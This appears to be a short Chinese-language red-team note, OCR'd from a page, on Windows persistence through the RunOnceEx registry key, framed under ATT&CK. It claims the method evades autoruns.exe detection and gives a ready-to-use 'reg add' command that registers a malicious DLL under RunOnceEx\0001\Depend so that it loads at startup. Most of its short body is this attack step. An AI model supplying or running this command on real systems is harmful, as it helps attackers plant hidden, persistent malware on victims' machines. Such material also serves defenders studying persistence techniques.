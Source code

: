 ![](media/233dbf8263bf30bbe69e39f35ca70156.png)

![](media/72de6573a12d0722e8f42d8e61e6be07.png)

**ATT&CK: Privilege Persistence-2).Windows利用注册表权限维- RunOnceEx权限维持**

可规避autoruns.exe的检测

调用恶意dll:

reg add
HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\RunOnceEx\\0001\\Depend /v 1
/d "C:\\xx.dll"
